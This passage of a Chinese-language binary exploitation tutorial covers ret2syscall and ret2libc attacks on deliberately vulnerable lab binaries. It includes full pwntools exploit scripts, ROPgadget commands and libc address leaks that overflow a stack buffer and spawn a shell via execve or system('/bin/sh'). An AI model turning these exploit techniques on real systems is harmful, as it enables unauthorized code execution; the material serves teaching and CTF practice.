接下来需要找这些能构造shellcode的汇编。
首先找有pop和汇编命令的，并且还是对eax寄存器进行操作的。
记住其中的内存地址0x080bb196
ROPgadget --binary ./ret2syscall --only "pop|ret" | grep "eax"
```

	

```
从目标二进制文件 ret2syscall 中搜索所有包含 pop 和 ret 指令的 ROP gadgets，然后筛选出同时包含对ebx,ecx,edx寄存器操作的汇编。
记住其中的汇编命令的内存地址0x0806eb90
ROPgadget --binary ./ret2syscall --only "pop|ret" | grep "ebx" | grep "ecx" | grep "edx"
```

	

```
从二进制文件 ./ret2syscall 中查找包含字符串 "/bin/sh" 的内存地址。
保存其中的内存地址0x080be408
ROPgadget --binary ./ret2syscall --string "/bin/sh"
```

	

```
查找到0x80的入口函数。
保存其中的内存地址0x08049421。
ROPgadget --binary ./ret2syscall --only "int"|grep "0x80"
```

	

```python
于是即可编写pop.py验证这个漏洞。

from pwn import *
# 导入 pwntools 库，用于编写漏洞利用脚本

context(arch="i386", os="linux")
# 设置上下文为 32 位架构（i386）和 Linux 系统

p = process("./ret2syscall")
# 启动目标程序 ret2syscall，返回一个进程对象 `p` 用于交互

offset = 112
# 设置缓冲区到返回地址的偏移量，这里是 112 字节，通过调试工具计算得出

pop_eax = p32(0x080bb196)
# 定义 ROP gadget：`pop eax ; ret` 的地址
# 作用：将栈顶的值弹入 eax，用于设置系统调用号

pop_edx_ecx_ebx = p32(0x0806eb90)
# 定义 ROP gadget：`pop edx ; pop ecx ; pop ebx ; ret` 的地址
# 作用：将栈顶的值依次弹入 edx、ecx 和 ebx，用于设置系统调用参数

bin_sh = p32(0x080be408)
# "/bin/sh" 字符串的地址，用于 execve 系统调用的第一个参数

int_0x80 = p32(0x08049421)
# 系统调用指令 `int 0x80` 的地址，用于触发 Linux 系统调用

payload = (
    b'A' * offset             # 用 112 字节的 'A' 填充缓冲区，覆盖返回地址之前的栈内容
    + pop_eax                 # 压入 ROP gadget：pop eax ; ret
    + p32(0xb)                # 设置 eax = 11（execve 的系统调用号）
    + pop_edx_ecx_ebx         # 压入 ROP gadget：pop edx ; pop ecx ; pop ebx ; ret
    + p32(0)                  # 设置 edx = 0（NULL，环境变量）
    + p32(0)                  # 设置 ecx = 0（NULL，参数）
    + bin_sh                  # 设置 ebx = "/bin/sh"（程序路径）
    + int_0x80                # 压入系统调用指令 `int 0x80`
)
# 构造完整的 ROP payload，通过缓冲区溢出覆盖返回地址并实现系统调用 execve

p.sendline(payload)
# 将构造好的 payload 发送给目标程序，触发缓冲区溢出漏洞

p.interactive()
# 进入交互模式，等待用户输入
# 如果漏洞利用成功，会打开一个交互式 Shell，允许用户执行命令
```

```
运行脚本即可得到shell.
```

	

```
解释这个payload原理。
分析:首先分别对前112B进行填充，到返回地址覆盖成pop_eax,那么当ret执行时就会把这个内存地址弹出，并赋值给eip（指令指针寄存器）中，这样就会去执行这个汇编指令，紧接着执行pop eax会把栈顶元素，即提前放好的0xb取出。然后再执行ret,此时又会pop出栈顶元素，即pop_edx_ecx_ebx的内存地址，并赋值到eip，然后就会去执行这部分的汇编，同理最后执行到ret时会弹出int_0x80的内存地址，那么就会执行这部分指令。
```

## ROP-Ret2Libc概述

	

```
如果是动态链接的程序，当要执行某个函数时，会去plt表查找这个函数，找到以后plt表内置jmp汇编，会跳转到got表，got表存放着真实函数的内存地址，但是第二次使用这个函数，真实内存地址已经记录到plt表，这样就不会反复查got表。
```

	

	

	

```
复现这个漏洞肯定需要关掉ASLR地址随机化，否则共享库的地址都是随机的，根本无从下手。
```

	

	

	

## 深入跟踪plt和got表

```
Linux 延迟绑定机制：动态链接的程序调用了libc的库函数，但是libc在运行才被加载到内存中
调用libc函数时，才解析出函数在内存中的地址

Linux 延迟绑定机制的实现：
所有程序调用的libc函数都有对应的PLT表和GOT表，其位置固定
PLT表：调用函数call puts@plt ②PLT表中存放着指令: jmp [ puts_ got ]
GOT表：解析函数真实地址放入GOT表中存储

PLT 表可以看作是对 GOT 表的一种间接访问方式，而不能简单地说它是 GOT 表的缓存。
GOT（Global Offset Table，全局偏移表）用于存储全局变量和函数的实际地址。在动态链接的情况下，程序在运行时需要确定这些地址。
PLT（Procedure Linkage Table，过程链接表）的每一项都是一小段代码。当程序调用一个外部函数时，实际上是跳转到相应的 PLT 项，然后通过 GOT 表来获取函数的真实地址。 在首次调用函数时，GOT 表中对应的项可能还没有被填充函数的真实地址。
此时，PLT 表中的代码会执行一些额外的操作，例如通过动态链接器来查找函数的真实地址并填充到 GOT 表中。后续再调用该函数时，就可以直接从 GOT 表中获取已经填充好的真实地址，从而提高调用效率。
例如，当调用一个外部函数 `func` 时，流程大致如下：
1. 跳转到 `func` 对应的 PLT 项。
2. PLT 项中的代码首先会跳转到 GOT 表中对应的项。
3. 如果这是首次调用，GOT 表中该项可能存储的是 PLT 项中的下一条指令地址（一个间接跳转），然后通过这个间接跳转执行一些额外的操作，如调用动态链接器来查找 `func` 的真实地址并填充到 GOT 表中。
4. 下次再调用 `func` 时，从 GOT 表中获取的就是 `func` 的真实地址，直接跳转到该地址执行函数。
```

	

```
调试这个二进制文件
gdb ret2libc1_32
反汇编发现main函数内部调用了vul函数。
```

	

```
反汇编vul函数，内部又调用了gets函数并且会去plt表进行查找。
```

	

```
打好断点运行。
```

		

```
使用si进去这个gets看具体怎么执行。
```

	

```
会发现一进去就会jmp一个内存地址，这内存地址显然就是Got表，而该内存里面存放的估计就是真实函数的入口地址。
```

	

```
查看里面存放的地址，其实就是跳转带plt表的另外一个表项，用于去使用动态链接器去把真实地址放入got表。
```

	

```
显然会发现当第一次执行完gets函数后，动态链接器会把真实函数的地址填入到got表中。所以会发现此时查看到的入口地址和第一次进入gets函数内部调试查看到的内存地址不一样，因为第一次使用这个函数，got表存放的是某个plt表项的地址。
```

	

```
https://libc.blukat.me/
通过下三位字节查看libc版本。
```

	

## ROP-Ret2Libc-32位实例详解

	

```
弄懂该漏洞需要理解的基础知识:
根据cdecl调用约定，一个函数的ebp一般来说是上一层函数的ebp,而ebp+4是上一层函数继续执行的入口地址,而ebp+8是当前函数的第一个参数，ebp+12是当前函数的第二个参数，依次类推，根据调用约定，当该函数执行时，需要使用这些参数就会通过ebp+8来获取函数的参数，通过ebp-4可以获取当前函数的局部变量等等。而参数压栈的时候是通过esp压栈的，默认会先把第n个参数先压栈，最后再把第一个参数压栈。
```

```c
接下来根据一个ret2libc.c文件来进行漏洞演示
#include<stdio.h>
char buf2[10] = "ret2libc is good";
void vul()
{
	char buf[10];
	gets(buf);
}
void main()
{
	write(1,"hello",5);
	vul();
}
//gcc -no-pie -fno-stack-protector -m32 -o ret2libc1_32 ret2libc1_32.c
```

```
首先检查编译好的二进制文件的安全权限。发现有开启NX保护，说明一般的手法只能是ret2syscall或者ret2libc
checksec ret2libc1_32 
```

	

```
分析发现里面的write函数是动态链接的，会去查plt表。
```

	

```
反汇编vul函数，发现里面执行了gets函数也查plt表，说明这个程序都是动态链接调用libc库的函数。
```

	

```
接下来使用objdump查看system plt地址，发现并没有。
objdump -d -j .plt ./ret2libc1_32 |grep system
```

	

```
使用ROPgadget查找/bin/sh的地址，发现没有/bin/sh，所以我们只能靠自己构造出这个字符串了，那么这也说明ret2syscall也不能利用了。
ROPgadget --binary ./ret2libc1_32 --string "/bin/sh"
```

	

```
发现偏移值是22。
```

	

	

```
即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。
列出libc库的路径，把这个libc库的路径保存下来。
ldd ret2libc1_32
路径:/lib/i386-linux-gnu/libc.so.6
```

	

```
由于python3.8环境跑会出错，所以安装python3.9的虚拟环境。
使用python3.9搭建虚拟环境。
virtualenv -p /usr/bin/python3.9 ~/pwntools_env
进入虚拟环境
source ~/pwntools_env/bin/activate
退出python虚拟环境
deactivate 
```

```
最后虚拟环境运行得到shell.
python poc.py
```

	

```python
poc.py代码如下
from pwn import *
# 设置程序运行的架构和操作系统
context(arch="i386", os="linux")

# 运行目标程序
p = process("./ret2libc1_32")

# 加载 ELF 文件对象，方便解析符号表
e = ELF("./ret2libc1_32")

# 获取目标程序中 write@plt 的地址，用于调用 write 函数,由于write已经调用过一次了，可以直接从plt表获得write函数的入口地址。
write_plt_addr = e.plt["write"]

# 获取目标程序中 gets@got 的地址，用于泄露其真实地址
gets_got_addr = e.got["gets"]

# 获取目标程序中 vul 函数的地址，用于在第一个 payload 后返回重新利用漏洞
vul_addr = e.symbols["vul"]

# 缓冲区溢出偏移量
offset = 22

# 构造第一个 Payload：
# 1. 填充缓冲区至返回地址 (22 个字节的 'A')
# 2. 覆盖返回地址为 write@plt 的地址
# 3. 设置 write@plt 的返回地址为 vul 函数地址（便于二次利用漏洞）
# 4. 参数 1：文件描述符 stdout（1）
# 5. 参数 2：gets@got 的地址（用于泄露 gets 的实际地址）
# 6. 参数 3：写入长度（4 字节）
payload1 = (
    offset * b"A" +         # 填充缓冲区
    p32(write_plt_addr) +   # 覆盖返回地址，跳转到 write@plt
    p32(vul_addr) +         # 返回到 vul 函数
    p32(1) +                # write 的第一个参数（文件描述符）
    p32(gets_got_addr) +    # write 的第二个参数（泄露的地址）
    p32(4)                  # write 的第三个参数（字节数）
)

# 发送第一个 Payload，触发缓冲区溢出并泄露 gets 的实际地址
p.sendlineafter("hello", payload1)

# 从程序输出中接收并解析泄露的 gets 函数实际地址（4 字节），u32用于
gets_addr = u32(p.recv()[:4])
print(f"Leaked gets address: {hex(gets_addr)}")

# 加载 libc 文件，便于计算基地址
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

# 计算 libc 的基地址 = 泄露的 gets 地址 - gets 在 libc 中的偏移
libc_base = gets_addr - libc.symbols["gets"]
print(f"libc base: {hex(libc_base)}")

# 计算 system 函数的实际地址 = libc 基地址 + system 在 libc 中的偏移
system_addr = libc_base + libc.symbols["system"]
print(f"system address: {hex(system_addr)}")

# 计算 "/bin/sh" 的实际地址 = libc 基地址 + "/bin/sh" 的偏移
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh"))
print(f"/bin/sh address: {hex(bin_sh_addr)}")

# 构造第二个 Payload：
# 1. 填充缓冲区至返回地址 (22 个字节的 'A')
# 2. 覆盖返回地址为 system 的实际地址
# 3. 设置 system 的返回地址为任意值（填充为 0x0）
# 4. 设置 system 的参数为 "/bin/sh" 的地址
payload2 = (
    offset * b"A" +         # 填充缓冲区
    p32(system_addr) +      # 覆盖返回地址，跳转到 system 函数
    p32(0x00000000) +       # 填充无效的返回地址
    p32(bin_sh_addr)        # system 的参数，指向 "/bin/sh" 的地址
)

# 发送第二个 Payload，触发缓冲区溢出并执行 system("/bin/sh")
p.sendline(payload2)
# 进入交互模式，保持与目标程序的交互
p.interactive()
```

## ROP-Ret2Libc-64位实例详解

```
64位系统的函数调用约定，参数主要通过 寄存器 传递，第一个参数默认放在rdi，依次类推第六个参数放在r9。
```

	

```c
接下来还是以这个c文件作为案例演示
#include<stdio.h>
char buf2[10] = "ret2libc is good";
void vul()
{
	char buf[10];
	gets(buf);
}
void main()
{
	write(1,"hello",5);
	vul();
}
```

```
查看可执行文件的安全等级，发现有开启NX保护。
```

	

```
首先确认具体的栈的溢出偏移值。
```

	

```
64位系统，可以通过ret返回的低地址的四个字节来判断，或者栈顶前四个字符判断偏移值。
```

	

```
我这里由于pwndbg版本较高，所以需要使用ret整段内存地址来得到偏移值。得到偏移值是18
```

	

```
查找64位的libc库的目录。
/lib/x86_64-linux-gnu/libc.so.6
```

	

```
由于需要使用write函数来泄露gets的真实内存地址，从而计算获得libc库的真实内存地址，那接下来的问题是64位程序，是借助rdi,rsi,rdx获得函数前三个参数，那么就需要借助syscall的思想，去找拼凑的汇编代码。
ROPgadget --binary ./ret2libc1_64 --only  "pop|ret"
但是会发现只能找到rdi和rsi寄存器的存入汇编，但是没有rdx,那么只能舍弃write的第三个参数，而第三个参数不指定，可能会读取很大的值，所以我们只需获取前八个字节即可。
0x00000000004005e3
0x00000000004005e1
```

	

```python
以下代码是poc.py用于验证漏洞使用的。
from pwn import *  # 导入 pwntools 库，用于构造和发送 Payload
context(arch="amd64", os="linux")  # 设置目标程序的架构为 x86_64，操作系统为 Linux

# 启动目标程序
p = process("./ret2libc1_64")

# 解析目标程序的 ELF 文件，提取符号表等信息
e = ELF("./ret2libc1_64")

# 获取目标程序中 write@plt 的地址
write_plt_addr = e.plt["write"]  # PLT 表中 write 的入口地址，用于调用 write 函数
# 获取目标程序中 gets@got 的地址
gets_got_addr = e.got["gets"]  # GOT 表中 gets 的地址，用于泄露真实的 gets 函数地址
# 获取目标程序中 vul 函数的地址
vul_addr = e.symbols["vul"]  # 目标函数的地址，方便返回重新利用漏洞

# ROP gadgets 地址
pop_rdi_addr = 0x4005e3  # pop rdi; ret 指令的地址，用于设置 rdi 寄存器（第 1 个参数）
pop_rsi_addr = 0x4005e1  # pop rsi; pop r15; ret 指令的地址，用于设置 rsi 寄存器（第 2 个参数）

# 缓冲区溢出偏移量
offset = 18

# 暂停程序执行，便于调试（在这里可以通过 GDB 附加调试）
pause()

# 构造第一个 Payload，用于泄露 gets@got 的真实地址
payload1 = (
    offset * b'A' +            # 填充缓冲区，覆盖返回地址
    p64(pop_rdi_addr) + p64(1) +  # 设置 rdi = 1（文件描述符 stdout）
    p64(pop_rsi_addr) + p64(gets_got_addr) + p64(1) +  # 设置 rsi = gets@got，r15 = 1（写入字节数）
    p64(write_plt_addr) +      # 调用 write@plt，输出 gets@got 的真实地址
    p64(vul_addr)              # 返回到 vul 函数，便于后续利用
)

# 发送第一个 Payload
p.sendline(payload1)

# 接收泄露的 gets 地址（前 8 字节）
gets_addr = u64(p.recv()[:8])  # 将泄露的 8 字节转换为 64 位整数
print(f"Leaked gets address: {hex(gets_addr)}")  # 打印泄露的 gets 地址

# 加载 libc 文件，便于计算偏移地址
libc = ELF("lib/x86_64-linux-gnu/libc.so.6")

# 计算 libc 基地址 = 泄露的 gets 地址 - gets 在 libc 中的偏移
libc_base = gets_addr - libc.symbols["gets"]
print(f"libc base address: {hex(libc_base)}")

# 计算 system 函数的地址 = libc 基地址 + system 在 libc 中的偏移
system_addr = libc_base + libc.symbols["system"]
print(f"system address: {hex(system_addr)}")

# 计算 "/bin/sh" 字符串的地址 = libc 基地址 + "/bin/sh" 在 libc 中的偏移
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh"))
print(f"/bin/sh address: {hex(bin_sh_addr)}")

# 构造第二个 Payload，用于调用 system("/bin/sh")
payload2 = (
    offset * b'A' +            # 填充缓冲区，覆盖返回地址
    p64(pop_rdi_addr) + p64(bin_sh_addr) +  # 设置 rdi = "/bin/sh" 的地址（system 函数的参数）
    p64(system_addr)           # 调用 system 函数，执行 /bin/sh
)

# 发送第二个 Payload
p.sendline(payload2)

# 进入交互模式，获得 Shell
p.interactive()
```

```
由于环境问题，里面rdx寄存器的值无法设置，可能里面寄存器的内容小于8，所以导致复现不成功。
关于这个漏洞利用主要有两个难点。
第一个难点，payload1,需要寻找能操作rdi寄存器的汇编，然后栈顶设置1，便于存入rdi,在寻找rsi和rdx寄存器的操作汇编，但是找不到rdx,所以无法控制write函数的第三个参数，这也是可能复现失败的地方，第二个参数rsi放入gets_got_addr,便于读取出gets的真实入口地址，运行完write函数后，重新运行vul函数，这样会再次运行其中的gets函数。
第二个难点，payload2就需要把gets的返回地址覆盖成pop_rdi_addr，以便把/bin/sh参数传入到rdi寄存器，然后运行system函数时，即可得到shell.
```

## 补充篇

### ret2libc的实例讲解

```
根据提供好的ret2libc1查找安全等级。发现开启了NX保护。
```

	

```
反汇编发现puts会输出ret2libc，这说明提示要利用此漏洞。由于底下还使用了gets函数，那么只需覆盖返回地址成plt表中的system函数即可
```

	

```
得到偏移值是112
```

	

```
看看plt表中是否有system函数。
objdump -d -j .plt ./ret2libc1 |grep system
```

	

```
再查看是否有程序中是否有/bin/sh字符串。
ROPgadget --binary ./ret2libc1 --string "/bin/sh"
```

	

```python
于是即可写poc.py验证漏洞了。
from pwn import *

# 设置目标程序的架构和操作系统
context(arch="i386", os="linux")

# 启动目标程序
p = process("./ret2libc1")

# 加载目标程序的 ELF 文件
e = ELF("./ret2libc1")

# 获取 system@plt 的地址
system_addr = e.plt["system"]

# 搜索 "/bin/sh" 字符串的地址
bin_sh_addr = next(e.search(b"/bin/sh"))

# 构造 Payload
offset = 112  # 确定缓冲区溢出的偏移量
payload = (
    offset * b'A' +        # 填充缓冲区
    p32(system_addr) +     # 返回地址覆盖为 system 函数地址
    p32(0) +               # system 的返回地址（任意值，这里填 0）
    p32(bin_sh_addr)       # system 的参数，指向 "/bin/sh" 的地址
)

# 发送 Payload
p.sendline(payload)

# 进入交互模式，获得 Shell
p.interactive()
```

### ret2libc-手动构造系统函数的参数 

```
首先查看这个二进制文件的安全等级,发现开启了NX保护。
checksec ret2l
```

	

```
查看这个二进制文件，发现有system函数可以利用。
objdump -d -M intel -j .plt ./ret2libc2 |grep "system"
```

	

```
查看这个二进制文件，发现没有/bin/sh字符串。
```

	

```
由于没有/bin/sh字符串，那么只能自己想办法创建这样的字符串来利用。由于汇编具有gets函数，那么可以想办法覆盖返回地址再一次执行gets,并且构造一个可以写入的内存地址，让其写入/bin/sh，这样就能构造这样的字符串了。
```

	

```
首先打个断点，运行，然后使用vmmap即可查找到哪些内存段具有写操作。
发现0x804a000是可以写的内存段，且也不是libc库的内存地址段，这样可以进行修改。
```

	

```
接下来还需要找具有pop和ret汇编的指令内存地址。
ROPgadget --binary ./ret2libc2 --only "pop|ret"
内存地址是0x0804843d
```

	

```python
这个exp2.py的代码，可以用于验证这个二进制文件的漏洞。
from pwn import *
context(arch = "i386",os = "linux",log_level="debug")
p = process("./ret2libc2")
e = ELF("./ret2libc2")
system_plt_addr = e.plt["system"]
gets_plt_addr = e.plt["gets"]

bin_sh_addr = 0x804b000-0x10 #由于/bin/sh肯定不超过16B,于是减0x10也够写入了。
#0x0804843d : pop ebx ; ret
pop_addr = 0x0804843d

offset = 112
payload =offset*b'a' + p32(gets_plt_addr) + p32(pop_addr) + p32(bin_sh_addr) + p32(system_plt_addr) + p32(0)+ p32(bin_sh_addr)
#payload =offset*b'a' + p32(gets_plt_addr) + p32(system_plt_addr) + p32(bin_sh_addr) + p32(bin_sh_addr)
#两个payload都可以，第二个是我自己构建的payload.
pause()
p.sendlineafter("What do you think ?",payload)

p.interactive()
```

```
从这里开始，这些payload对堆栈的运转可能会很难理解，但是只需知道第一次gets输入的内容会使得返回地址覆盖成gets的地址，根据堆栈的结构,ebp-8就是第一个参数，于是会获取第一个参数的内存地址，并把输入的内容写入该地址。并在ebp-4处进行地址的返回，这里会把pop掉bin_sh_addr，然后ret到system函数下，再根据参数bin_sh_addr即可获得shell,而其中的0可以随便填，因为不需要返回了。
```

### 获取libc版本

```
虽然获取libc版本可以通过网站，但是打比赛是不能联网的，所以都是使用工具进行libc版本的获取。
```

	

```
git下来后，进行里面的目录进行安装即可。
git clone https://github.com/lieanu/LibcSearcher.git
python setup.py develop
```

	

### 手动构造二次溢出

	

```
这个二进制文件是开启NX保护的。
```

	

```
发现plt表中并没有system函数，并且从该二进制文件寻找字符串，也发现没有/bin/sh，那么这两个只能自己想办法。
objdump -d -M intel -j .plt ./ret2libc3 |grep "system"
ROPgadget --binary ./ret2libc3 --string "/bin/sh"
```

	

```
查看导出的汇编具有_start,可以根据这个地址，覆盖掉返回地址来再次执行main函数。
objdump -d -M intel ./ret2libc3 
```

	

```
通过反汇编发现里面具有puts函数，还有gets函数，那么可以利用gets函数溢出覆盖返回地址，让其再次执行puts函数输出puts的真实内存地址，从而确认plt表的基地址，这样即可通过偏移值确认出system函数和/bin/sh的地址。
```

	

```
再确认溢出的偏移值为112
```

	

```python
接下来开始构造poc.py文件
from pwn import *
context(arch="i386", os="linux", log_level="debug")  # 设置环境为 i386 架构，Linux 系统，并打开调试日志

p = process("./ret2libc3")  # 启动目标程序
e = ELF("./ret2libc3")      # 加载目标程序的 ELF 文件，方便提取符号表信息

# 获取目标程序中的函数和符号地址
puts_plt_addr = e.plt["puts"]         # puts@plt 地址，用于调用 puts 函数
puts_got_addr = e.got["puts"]         # puts@got 地址，存放 puts 函数的实际地址
start_addr = e.symbols["_start"]      # _start 地址，用于返回程序起始点重新运行，最好别设置成main，因为main也需要自带一些函数，而_start的话是操作系统层面重新执行的入口地址，则不会出现这些问题。

# 构造第一个 payload，用于泄露 puts 地址
offset = 112                          # 栈溢出偏移，覆盖到返回地址
payload1 = (
    offset * b'A' +                   # 填充缓冲区，覆盖到返回地址
    p32(puts_plt_addr) +              # 返回地址：跳转到 puts@plt
    p32(start_addr) +                 # 返回到 _start，用于重新执行程序
    p32(puts_got_addr)                # puts 的参数：传递 GOT 表中的 puts 地址
)

# 发送第一个 payload
p.sendlineafter("Can you find it !?", payload1)  # 等待特定提示信息后发送 payload1

# 接收泄露的 puts 地址
puts_addr = u32(p.recv()[:4])         # 接收 puts 函数的实际地址（4 字节，LE 格式）

# 加载 libc 文件，用于计算基地址和其他符号地址
libc = ELF("/lib/i386-linux-gnu/libc.so.6")      # 加载目标环境下的 libc 文件
base_addr = puts_addr - libc.symbols["puts"]    # 计算 libc 的基地址
system_addr = base_addr + libc.symbols["system"]  # 计算 system 函数的地址
bin_sh_addr = base_addr + next(libc.search(b"/bin/sh"))  # 计算 "/bin/sh" 字符串地址

# 构造第二个 payload，用于执行 system("/bin/sh")
payload2 = (
    offset * b'A' +                   # 填充缓冲区，覆盖到返回地址
    p32(system_addr) +                # 返回地址：跳转到 system 函数
    p32(1) +                          # 返回地址（这里无意义，可以是任意值）
    p32(bin_sh_addr)                  # system 的参数："/bin/sh" 的地址
)

# 发送第二个 payload
p.sendline(payload2)                  # 发送 payload2 执行 system("/bin/sh")
p.interactive()                       # 进入交互模式，获得 shell
```

```
运行即可获得shell
python poc.py
```

	


